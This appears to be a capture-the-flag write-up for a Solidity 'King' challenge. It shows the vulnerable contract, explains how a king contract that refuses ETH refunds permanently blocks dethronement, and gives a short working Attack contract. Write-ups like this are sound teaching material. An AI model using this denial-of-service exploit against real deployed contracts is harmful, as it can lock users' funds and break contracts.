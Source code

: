<div align="center">

# King

</div>



**King (Vulnerable Code) :**


<details>
<summary>Code</summary>

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}

```

</details>

---------

**Approach and Exploit Method Including Code :** 

1. **Understand the contract**

   - `King` keeps track of the current `king` and the current `prize` (amount required to become king).  
   - On receiving ETH (`receive()`), the contract requires `msg.value >= prize` (unless sender is `owner`), then **pays the previous king** with `payable(king).transfer(msg.value)`, and finally updates `king = msg.sender` and `prize = msg.value`.  
   - **Key weakness:** `transfer` will revert if the recipient (the previous king) cannot accept ETH. If the current `king` is an address that refuses payment, any future attempts to become king will revert at the `transfer` step — locking the throne.

---

1. **Exploit Method**

- **Goal:** Become king with an address that **cannot receive refunds**, so future dethrone attempts fail.

    Steps:
    i. Read the current `prize` from the target:  
    - `prize = await contract.prize()` (or via the console).
    ii. Deploy or use an **Attack** contract that either has no payable `receive`/`fallback` or explicitly reverts when it receives ETH (so it cannot be refunded).
    iii. During deployment (or in an immediate constructor call), send `value = prize` (or more) in a transaction that calls the `King` contract — this makes the `Attack` contract the new `king`.
    iv. Because `Attack` refuses refunds, any subsequent calls to `King.receive()` will revert at `payable(king).transfer(msg.value)`, preventing the level from reclaiming kingship.  
    v. Verify by checking `king._king()` (or the `King`'s getter) — it should return the `Attack` contract address.



  
## Exploit Code

```Solidity

contract Attack{
    constructor (address payable  target) payable {
        uint prize = King(target).prize();
        (bool ok,) = target.call{value : prize}("");

        require(ok, "call failed");
    }
}


```



---


